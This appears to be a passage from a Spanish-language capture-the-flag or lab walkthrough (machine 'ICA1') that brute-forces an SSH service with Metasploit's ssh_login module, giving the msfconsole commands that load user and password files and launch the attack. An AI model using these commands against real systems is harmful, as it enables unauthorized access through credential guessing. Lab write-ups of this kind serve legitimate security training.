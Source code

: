 #### Explotacion del servicio SSH

Con la lista de usuarios generada voy a intentar usarlas para obtener acceso al sistema mediante el servicio SSH. 

Para ello usare el modulo ssh_login de metasploit que me permite hacer fuerza bruta al servicio con los ficheros de usuario y claves que tengo.

```bash
msfconsole -q
search ssh_login
use auxiliary/scanner/ssh/ssh_login
```

![alt text](../assets/images/ICA1/image-49.png)

```sh
set PASS_FILE pass.txt
set USER_FILE usuarios.txt
set verbose true
exploit
```

![alt text](../assets/images/ICA1/image-50.png)

